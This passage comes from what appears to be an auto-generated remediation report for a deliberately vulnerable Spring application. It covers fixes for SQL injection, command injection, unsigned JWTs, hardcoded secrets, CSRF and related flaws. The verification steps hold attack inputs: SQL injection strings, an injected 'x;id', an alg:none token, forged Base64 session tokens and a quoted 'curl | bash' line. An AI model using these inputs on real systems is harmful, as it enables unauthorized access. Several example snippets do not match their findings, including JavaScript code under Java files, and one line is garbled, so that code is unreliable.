// After — safe: delegate to the existing parameterized method:
public Optional<LegacySqliteUser> authenticateRaw(String username, String password) {
    return authenticate(username, password); // uses PreparedStatement binding
}
```

**Verification:** Send `GET /api/legacy-sqlite/login-raw?username=legacy_admin`%27+--&password=x and confirm the response is HTTP 401. Send the same payload to `POST /api/legacy-sqlite/login` and confirm HTTP 401 is still returned (regression).

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-002"></a>
#### M-002 — Enforce JWT signature and algorithm verification

**Addresses:**

- 🔴 [F-002](#f-002) — JWT parsed without signature verification (`LegacyJwtVerifier.java:17`)

**Prevents CWEs:**

- [CWE-347](https://cwe.mitre.org/data/definitions/347.html) - Improper Verification of Cryptographic Signature

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`

**How:** Replace `parseClaimsJwt`/`parsePlaintextJwt` with `parseClaimsJws`/`parseSignedClaims`…

1. Replace `parseClaimsJwt`/`parsePlaintextJwt` with `parseClaimsJws`/`parseSignedClaims` and a configured signing key; reject unsigned tokens.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`: it applies **Enforce JWT signature and algorithm verification**. The ordered steps above remain authoritative._

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Re-run the AUTHZ-201 scanner check; it reports no match at `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`, and the regression test passes.

---

<a id="m-003"></a>
#### M-003 — Eliminate shell invocation in ToolController.lookup and validate input against…

**Addresses:**

- 🔴 [F-003](#f-003) — OS Command Injection via Name Parameter (`ToolController.java:18`)

**Prevents CWEs:**

- [CWE-78](https://cwe.mitre.org/data/definitions/78.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`

**How:**

1. Replace the sh -c invocation with a fixed command and pass name as a separate argument so the shell never interprets it: `new String[]{"echo", "Result for", name}` - shell metacharacters are not interpreted when `exec()` receives a pre-split argument array without a shell.
2. Validate name against an allowlist of expected tokens (alphanumeric + dash/underscore only) before any processing.
3. If the endpoint has no legitimate production purpose, remove it entirely.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`: it applies **Eliminate shell invocation in ToolController.lookup and validate input against…**. The ordered steps above remain authoritative._

```javascript
// Before (vulnerable):
new String[]{"sh", "-c", "echo Result for " + name}

// After (safe — no shell interpolation):
if (!name.matches("[A-Za-z0-9_\\-]{1,64}")) throw new ResponseStatusException(HttpStatus.BAD_REQUEST);
new String[]{"echo", "Result for", name}
```

**Verification:** Send `GET /api/tools/lookup?name=x`%3Bid; confirm the response `output` field contains only 'Result for x;id' literally and does not execute the id command.

**Reference:** [CWE-78: Improper Neutralization of Special Elements used in an OS Command (OS Command Injection)](https://cwe.mitre.org/data/definitions/78.html)

---

<a id="m-004"></a>
#### M-004 — Use parameterized database queries

**Addresses:**

- 🔴 [F-004](#f-004) — SQL Injection (`OrderLookupDao.java:22`)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22`

**How:**

1. Replace the string concatenation with a JPA named parameter: `entityManager.createNativeQuery(``"... where u.email = :email"``, CustomerOrder.class).setParameter("email", email).getResultList()`.
2. Alternatively, rewrite the query as a Spring Data JPA @Query method on CustomerOrderRepository with JPQL and named binding.
3. Add an integration test asserting that email=`' OR '1'='1` returns no results.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22`: it applies **Use parameterized database queries**. The ordered steps above remain authoritative._

```javascript
// Before:
String sql = "select o.* from customer_orders o join app_users u"
           + " on o.owner_id = u.id where u.email = '" + email + "'";
return entityManager.createNativeQuery(sql, CustomerOrder.class).getResultList();

// After:
String sql = "select o.* from customer_orders o join app_users u"
           + " on o.owner_id = u.id where u.email = :email order by o.id";
return entityManager.createNativeQuery(sql, CustomerOrder.class)
    .setParameter("email", email)
    .getResultList();
```

**Verification:** Send `GET /api/orders/search?email=`%27+OR+%271%27%3D%271; confirm an empty list or HTTP 400 is returned.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-005"></a>
#### M-005 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-005](#f-005) — Hardcoded Secrets in Dockerfile ENV Layers (`Dockerfile`) (`Dockerfile:12`)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `Dockerfile:12`

**How:**

1. Remove all ENV `DB_PASSWORD`, `JWT_SIGNING_KEY`, `AWS_ACCESS_KEY_ID`, and `AWS_SECRET_ACCESS_KEY` lines from the Dockerfile.
2. Supply secrets at container runtime via Docker Secrets (Swarm), Kubernetes Secrets mounted as files, or a secrets manager sidecar (AWS Secrets Manager, HashiCorp Vault Agent) - never as build ARG or ENV.
3. Rotate all four exposed secrets immediately; treat every previously built image as compromised regardless of registry access controls.
4. Add a pre-commit hook or CI step using `gitleaks` or `trufflehog` to block Dockerfile commits that contain ENV lines matching secret patterns.

_Example implementation in `Dockerfile:12`: it applies **Move secrets to a managed secret store**. The ordered steps above remain authoritative._

```javascript
# Before (insecure):
ENV JWT_SIGNING_KEY=hardcoded-legacy-jwt-secret

# After — secret injected at runtime, not build time:
# Kubernetes: mount as file, read in application:
# spec.containers[].env: [{name: JWT_SIGNING_KEY, valueFrom: {secretKeyRef: {name: app-secrets, key: jwt-signing-key}}}]
# Application reads System.getenv("JWT_SIGNING_KEY") — no Dockerfile change needed.
```

**Verification:** Run `docker history --no-trunc <rebuilt-image> | grep -E 'DB_PASSWORD|JWT_SIGNING_KEY|AWS_ACCESS'` and confirm zero hits. Attempt to start the container without the runtime secret; confirm the application fails with a clear configuration error rather than using a fallback default.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-006"></a>
#### M-006 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-006](#f-006) — H2 Web Console Exposed Without Authentication Allowing Full Database Access (`SecurityConfig.java:32`)

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`

**How:**

1. Set `spring.h2.console.enabled: false` in any non-development configuration file.
2. Gate the H2 console behind `hasRole("ADMIN")` if it must be accessible in development: `.requestMatchers("/h2-console/**").hasRole("ADMIN")`.
3. Use Spring profiles to enable the console only in dev: `@ConditionalOnProperty("spring.h2.console.enabled")`.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`: it applies **Enforce server-side authorization on every endpoint**. The ordered steps above remain authoritative._

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Navigate to `/h2-console` without authentication; confirm HTTP 401/403 is returned.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-007"></a>
#### M-007 — Stop exposing internal information to clients

**Addresses:**

- 🔴 [F-007](#f-007) — Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext Passwords (`LegacySqliteAuthController.java:65`)

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:65`

**How:**

1. Remove the password field from LegacyUserResponse (or create a separate DTO that excludes it) so credentials are never serialized into API responses.
2. Restrict `GET /api/legacy-sqlite/users` to authenticated admin sessions using Spring Security's @PreAuthorize("`hasRole('ADMIN')`") or remove the endpoint entirely if no operational use case exists.
3. Verify with an unauthenticated curl request that the endpoint returns HTTP 401 or 403 after the fix.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:65`: it applies **Stop exposing internal information to clients**. The ordered steps above remain authoritative._

```javascript
// Before (LegacySqliteAuthController.java:65) — exposes password:
record LegacyUserResponse(Long id, String username, String password, String role) { ... }

// After — password excluded from public DTO:
record LegacyUserResponse(Long id, String username, String role) {
    public static LegacyUserResponse from(LegacySqliteUser user) {
        return new LegacyUserResponse(user.id(), user.username(), user.role());
    }
}
```

**Verification:** Send `GET /api/legacy-sqlite/users` without authentication and confirm HTTP 401/403. Confirm the response body no longer contains any 'password' field even for authenticated admin callers.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

<a id="m-008"></a>
#### M-008 — Require authentication on every exposed endpoint

**Addresses:**

- 🔴 [F-008](#f-008) — Missing Authentication on H2 SQL Console (`application.yml:11`)

**Weaknesses addressed:** [W-001](#w-001)

**Prevents CWEs:**

- [CWE-306](https://cwe.mitre.org/data/definitions/306.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/resources/application.yml:11`

**How:**

1. Set `spring.h2.console.enabled: false` in all non-development Spring profiles (e.g., `application-prod.yml`); keep enabled only in a local dev profile gated by `spring.profiles.active=dev`.
2. If the console must remain enabled in development, add `requestMatchers("/h2-console/**").hasRole("ADMIN")` in SecurityConfig before the `permitAll` catch-all and ensure `csrf` and `frameOptions` are configured to DENY for non-local environments.
3. Move the H2 datasource password from an empty value to a random secret loaded from environment variable: `spring.datasource.password=${DB_PASSWORD}` and fail startup when the variable is unset.
4. Remove the H2 console `permitAll` rule entirely from `SecurityConfig.java:32`.

_Example implementation in `src/main/resources/application.yml:11`: it applies **Require authentication on every exposed endpoint**. The ordered steps above remain authoritative._

```javascript
# application.yml — disable console outside dev
spring:
  h2:
    console:
      enabled: false  # was: true

# application-dev.yml — enable only in dev
spring:
  h2:
    console:
      enabled: true
```

**Verification:** After disabling: `curl -i http://localhost:8080/h2-console/` must return HTTP 403 or 302 to login, not 200 with the console HTML. Confirm `grep -r 'h2-console' application*.yml` shows `enabled: false` in the production profile.

**Reference:** [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

<a id="m-009"></a>
#### M-009 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication (`SecurityConfig.java:41`)

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:41`

**How:**

1. Remove `/legacy/admin` and `/legacy/admin/**` from the `permitAll()` list.
2. Add `.requestMatchers("/legacy/admin/**").hasRole("ADMIN")` before the `anyRequest()`.`authenticated()` catch-all.
3. Add @PreAuthorize("`hasRole('ADMIN')`") to both `promote()` and `delete()` methods as defense in depth.
4. Consider removing the legacy admin board entirely if AdminUserController provides equivalent functionality with proper authorization.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:41`: it applies **Enforce server-side authorization on every endpoint**. The ordered steps above remain authoritative._

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Send `GET /legacy/admin` without authentication; confirm HTTP 302 redirect to `/login` is returned.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-010"></a>
#### M-010 — Allowlist client-controlled fields

**Addresses:**

- 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`)

**Prevents CWEs:**

- [CWE-915](https://cwe.mitre.org/data/definitions/915.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44`

**How:**

1. Replace AppUser as the request body type with a ProfileUpdateRequest DTO containing only user-settable fields (email, `passwordHash`).
2. Never bind the domain entity directly from the request body.
3. If admins must change roles, provide a separate `PUT /api/admin/users/{id}/role` endpoint protected by @PreAuthorize('`hasRole("ADMIN")`').

_Example implementation in `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44`: it applies **Allowlist client-controlled fields**. The ordered steps above remain authoritative._

```javascript
// Define a safe DTO:
public record ProfileUpdateRequest(String email, String passwordHash) {}

// In update():
@PutMapping("/me")
public ResponseEntity<ProfileResponse> update(
        Authentication auth, @RequestBody ProfileUpdateRequest req) {
    return appUserRepository.findByUsername(auth.getName()).map(current -> {
        if (req.email() != null) current.setEmail(req.email());   // only safe fields
        // role and admin: never touched here
        return ResponseEntity.ok(ProfileResponse.from(appUserRepository.save(current)));
    }).orElseGet(() -> ResponseEntity.notFound().build());
}
```

**Verification:** Send `PUT /api/profile/me` with body `{"role":"ADMIN","admin":true}`; confirm the response shows the original role and admin=false unchanged.

**Reference:** [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes (Mass Assignment)](https://cwe.mitre.org/data/definitions/915.html)

---

### P2 — This Sprint

<a id="m-011"></a>
#### M-011 — Set a strong random H2 datasource password loaded from environment configuration

**Addresses:**

- 🟠 [F-011](#f-011) — Empty H2 Datasource Password (`application.yml:8`)

**Prevents CWEs:**

- [CWE-521](https://cwe.mitre.org/data/definitions/521.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/resources/application.yml:8`

**How:**

1. Replace `password:` with `password: ${H2_PASSWORD}` in `application.yml` and supply a CSPRNG-generated password via environment variable at startup.
2. Fail application startup when `H2_PASSWORD` is unset or empty by using Spring's `@Value` with a mandatory binding.
3. Rotate the password on every environment provisioning; do not commit any default value.

_Example implementation in `src/main/resources/application.yml:8`: it applies **Set a strong random H2 datasource password loaded from environment configuration**. The ordered steps above remain authoritative._

```javascript
# application.yml
spring:
  datasource:
    username: sa
    password: ${H2_PASSWORD}  # was: password: (empty)
```

**Verification:** Confirm `curl -d 'url=jdbc:h2:mem:appsec_verification_target&user=sa&password=' http://localhost:8080/h2-console/login.do` returns a login error, not a redirect to the console.

**Reference:** [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)

---

<a id="m-012"></a>
#### M-012 — Enforce JWT signature and algorithm verification

**Addresses:**

- 🔴 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none) (`LegacyJwtVerifier.java:15`)

**Prevents CWEs:**

- [CWE-347](https://cwe.mitre.org/data/definitions/347.html) - Improper Verification of Cryptographic Signature

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15`

**How:**

1. Inject the signing key and call `parserBuilder()`.`setSigningKey(key)`.`build()`.`parseClaimsJws(token)` instead of `parseClaimsJwt()`, which requires a valid signature.
2. Replace the legacy JWT endpoint with the existing `/api/secure-jwt/`** path that uses SignedJwtService with a proper RS256/HS256 key.
3. If the legacy endpoint must remain, enforce a mandatory algorithm allowlist via .`requireAlgorithm(SignatureAlgorithm.HS256)` before parsing.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15`: it applies **Enforce JWT signature and algorithm verification**. The ordered steps above remain authoritative._

```javascript
// Before:
Jwts.parserBuilder().build().parseClaimsJwt(token);

// After:
Jwts.parserBuilder()
    .setSigningKey(signingKey)      // mandatory — rejects alg:none
    .build()
    .parseClaimsJws(token);         // Jws not Jwt — signature required
```

**Verification:** Send `GET /api/legacy-admin/audit?token=eyJhbGciOiJub25lIn0.eyJyb2xlIjoiQURNSU4ifQ`. and confirm HTTP 401/500 is returned; a valid signed token must succeed.

**Reference:** [CWE-347: Improper Verification of Cryptographic Signature](https://cwe.mitre.org/data/definitions/347.html)

---

<a id="m-013"></a>
#### M-013 — Remove hardcoded seed credentials and require externally configured initial adm…

**Addresses:**

- 🟠 [F-013](#f-013) — Trivially Guessable Default Credentials Seeded at Startup (`admin/password`) (`SecurityConfig.java:79`)

**Prevents CWEs:**

- [CWE-521](https://cwe.mitre.org/data/definitions/521.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:79`

**How:**

1. Replace the hardcoded 'password' literal in SecurityConfig with credentials loaded from environment variables or a secret manager.
2. Generate a random CSPRNG password at first startup and print it once to stdout (operator-only channel), then require it to be changed immediately.
3. Remove demo seed users from production startup paths; gate seeding behind a profile flag (e.g., `spring.profiles.active`=dev).
4. Replace the legacy SQLite legacy_admin/admin credential with the same externally configured approach.

**Verification:** Attempt login with admin/password after the change; confirm HTTP 302 redirect to `/login`?error.

**Reference:** [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)

---

<a id="m-014"></a>
#### M-014 — Replace Base64 userId tokens with HMAC-signed tokens

**Addresses:**

- 🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`)

**Prevents CWEs:**

- [CWE-522](https://cwe.mitre.org/data/definitions/522.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/HomegrownSessionService.java:21`

**How:**

1. Sign the `userId` using HMAC-SHA256 with a stable server-side secret: `Base64(userId + '.' + HMAC-SHA256(secret, userId))`.
2. Verify the HMAC before looking up the user, rejecting any token whose MAC does not match.
3. Prefer migrating consumers of HomegrownSessionService to use the existing Spring Security session (JSESSIONID) or the signed JWT service at `/api/secure-jwt/`**.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/HomegrownSessionService.java:21`: it applies **Replace Base64 userId tokens with HMAC-signed tokens**. The ordered steps above remain authoritative._

```javascript
// Replace token issuance:
Mac mac = Mac.getInstance("HmacSHA256");
mac.init(new SecretKeySpec(secret, "HmacSHA256"));
String sig = Base**** (20 chars)().encodeToString(
    mac.doFinal(userId.toString().getBytes()));
return userId + "." + sig; // token = userId.HMAC
```

**Verification:** Call `GET /api/legacy-session/orders?token=MTAw` (Base64 of '100'); confirm HTTP 401 is returned for an unsigned token.

**Reference:** [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)

---

<a id="m-015"></a>
#### M-015 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-015](#f-015) — Hardcoded Weak Seed Credentials for legacy_admin Account (`LegacySqliteUserStore.java:37`)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:37`

**How:**

1. Remove the hardcoded `save()` calls at lines 37-39 from `initialize()`. Replace with an externally-supplied admin credential read from an environment variable or secrets manager (e.g. `System.getenv("LEGACY_ADMIN_PASSWORD")`) and fail startup when absent.
2. Generate credentials for test/development environments with a CSPRNG at first-run and log them once to the operator console, never in application logs.
3. Rotate the SQLite database file in any existing deployment to purge the known plaintext credentials.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:37`: it applies **Move secrets to a managed secret store**. The ordered steps above remain authoritative._

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = process.env.ORDER_HMAC_KEY
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** Confirm that no password literal matching 'admin', 'password', or their variants appears in the source tree: `grep -r 'password\|admin' src/main/java --include='*.java'`. Confirm `GET /api/legacy-sqlite/login` with legacy_admin/admin returns HTTP 401 after the fix.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-016"></a>
#### M-016 — Avoid the shell; pass a fixed argv array with validated, allow-listed arguments

**Addresses:**

- 🟠 [F-016](#f-016) — Command injection Java (`ToolController.java:18`)

**Prevents CWEs:**

- [CWE-78](https://cwe.mitre.org/data/definitions/78.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`

**How:** Avoid the shell; pass a fixed argv array with validated, allow-listed arguments.

1. Avoid the shell; pass a fixed argv array with validated, allow-listed arguments.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the INJ-JAVA-002 scanner check; it reports no match at `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`, and the regression test passes.

---

<a id="m-017"></a>
#### M-017 — Replace the weak cryptographic algorithm

**Addresses:**

- 🟠 [F-017](#f-017) — Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:14`)
- 🟠 [F-018](#f-018) — Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:23`)

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-327](https://cwe.mitre.org/data/definitions/327.html) - Use of a Broken or Risky Cryptographic Algorithm

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`

**How:** Use an authenticated cipher (AES-GCM) from a vetted library; never a hand-rolle…

1. Use an authenticated cipher (AES-GCM) from a vetted library; never a hand-rolled XOR.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`: it applies **Replace the weak cryptographic algorithm**. The ordered steps above remain authoritative._

```typescript
// jsonwebtoken@9+: pin algorithm whitelist; reject `alg:none`.
jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Re-run the CRYPTO-HOMEGROWN-XOR scanner check; it reports no match at `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`, and the regression test passes.

---

<a id="m-018"></a>
#### M-018 — Use cryptographically secure random values

**Addresses:**

- 🟠 [F-019](#f-019) — Non-cryptographic RNG in a security module Java (`LegacyTokenService.java:10`)

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-330](https://cwe.mitre.org/data/definitions/330.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10`

**How:** Use `java.security.SecureRandom` for any security value.

1. Use `java.security.SecureRandom` for any security value.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the CRYPTO-JAVA-002B scanner check; it reports no match at `src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10`, and the regression test passes.

---

<a id="m-019"></a>
#### M-019 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-021](#f-021) — Remote Script Pipe Without Integrity Verification (`Dockerfile`) (`Dockerfile:21`)

**Prevents CWEs:**

- [CWE-829](https://cwe.mitre.org/data/definitions/829.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `Dockerfile:21`

**How:**

1. Remove the `curl | bash` line. Download the script to a named file, verify its SHA-256 checksum against a value pinned in the Dockerfile, then execute it: `curl -sfL https://example.com/install-agent.sh -o /tmp/install-agent.sh && echo '<sha256>  /tmp/install-agent.sh' | sha256sum -c - && bash /tmp/install-agent.sh`.
2. If the agent is distributed as a signed package, use `dpkg --verify` or GPG signature verification against a pinned public key rather than a raw script.
3. Consider vendoring the agent binary into the repository or a private registry so the build never makes an outbound network call to an uncontrolled host.
4. In CI, run the build in a network-restricted environment that blocks outbound HTTPS to non-whitelisted hosts.

_Example implementation in `Dockerfile:21`: it applies **Pin third-party dependencies to immutable versions**. The ordered steps above remain authoritative._

```javascript
# Before:
RUN curl -sfL https://example.com/install-agent.sh | bash

# After — download, verify, execute:
RUN curl -sfL https://example.com/install-agent.sh -o /tmp/install-agent.sh \
    && echo 'EXPECTED_SHA256_HERE  /tmp/install-agent.sh' | sha256sum -c - \
    && bash /tmp/install-agent.sh \
    && rm /tmp/install-agent.sh
```

**Verification:** Build the image in a network-isolated environment (Docker `--network none` for the RUN step or firewall rules) and confirm the build fails with a network error, proving the external dependency is eliminated. When vendored, confirm the build succeeds without any outbound connection.

**Reference:** [CWE-829: Inclusion of Functionality from Untrusted Control Sphere](https://cwe.mitre.org/data/definitions/829.html)

---

<a id="m-020"></a>
#### M-020 — Add framing and clickjacking protections

**Addresses:**

- 🟠 [F-022](#f-022) — H2 Console Clickjacking via sameOrigin Frame Policy (`application.yml:11`)

**Prevents CWEs:**

- [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/resources/application.yml:11`

**How:**

1. Set `frameOptions(HeadersConfigurer.FrameOptionsConfig::deny)` in SecurityConfig to prevent all framing of the application - or scope it to the H2 console path specifically.
2. Remove `.csrf(AbstractHttpConfigurer::disable)` and configure CSRF exclusions only for stateless API paths, not the console.
3. Disable the H2 console in non-development profiles as described in 🔴 [F-008](#f-008) - the primary remediation that eliminates this vector entirely.

_Example implementation in `src/main/resources/application.yml:11`: it applies **Add framing and clickjacking protections**. The ordered steps above remain authoritative._

```javascript
// SecurityConfig.java
.headers(headers -> headers
    .frameOptions(HeadersConfigurer.FrameOptionsConfig::deny)  // was: sameOrigin
)
```

**Verification:** Verify the `X-Frame-Options: DENY` response header appears on `/h2-console/` requests: `curl -I http://localhost:8080/h2-console/ | grep -i x-frame-options`.

**Reference:** [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

---

<a id="m-021"></a>
#### M-021 — Add anti-CSRF protection to state-changing requests

**Addresses:**

- 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:28`

**How:**

1. Remove `.csrf(AbstractHttpConfigurer::disable)` from SecurityConfig.
2. For REST API clients using stateless JWT, configure CSRF to apply only to session-authenticated endpoints using `csrf.ignoringRequestMatchers("/api/auth/**", "/api/secure-jwt/**")`.
3. Add `<input type='hidden' name='_csrf' th:value='${_csrf.token}' />` to all Thymeleaf forms or use Thymeleaf's built-in `th:action` which inserts the token automatically.
4. Set the SameSite=Strict cookie attribute on JSESSIONID as defense in depth.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:28`: it applies **Add anti-CSRF protection to state-changing requests**. The ordered steps above remain authoritative._

```typescript
// Use double-submit cookie / SameSite=Strict for state-changing routes.
app.use(csrf({ cookie: { sameSite: 'strict', httpOnly: true, secure: true } }))
```

**Verification:** Construct an HTML form on a separate origin posting to `/orders`; confirm the request is rejected with HTTP 403 Forbidden after enabling CSRF.

**Reference:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

---

<a id="m-022"></a>
#### M-022 — Add anti-CSRF protection to state-changing requests

**Addresses:**

- 🟠 [F-024](#f-024) — Homegrown CSRF Token Validates Presence Only, Not Value (CsrfSettingsController) (`CsrfSettingsController.java:47`)

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/csrf/CsrfSettingsController.java:47`

**How:**

1. In `CsrfSettingsController.update()`, retrieve the expected token via `csrfTokenService.currentToken(session)` and compare it to `formToken` using `MessageDigest.isEqual()` (constant-time).
2. Reject the request with HTTP 403 if the tokens do not match or if the session has no token.
3. Re-enable Spring Security's built-in CSRF support (fixing 🟠 [F-023](#f-023)) and delete this custom implementation.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/csrf/CsrfSettingsController.java:47`: it applies **Add anti-CSRF protection to state-changing requests**. The ordered steps above remain authoritative._

```javascript
String expected = csrfTokenService.currentToken(session);
if (expected == null || !MessageDigest.isEqual(
        expected.getBytes(StandardCharsets.UTF_8),
        formToken.getBytes(StandardCharsets.UTF_8))) {
    throw new ResponseStatusException(HttpStatus.FORBIDDEN, "Invalid CSRF token");
}
```

**Verification:** POST to `/csrf/settings` with `formToken`=WRONG while holding a valid session; confirm HTTP 403 is returned.

**Reference:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

---

<a id="m-023"></a>
#### M-023 — Validate file type and sanitize filename

**Addresses:**

- 🟠 [F-025](#f-025) — Unrestricted File Upload with No MIME Type or Extension Validation (`BusinessFileStorage.java:17`)

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/web/BusinessFileStorage.java:17`

**How:**

1. Extract only the filename component using `Path.of(fileName).getFileName().toString()` to strip any directory traversal.
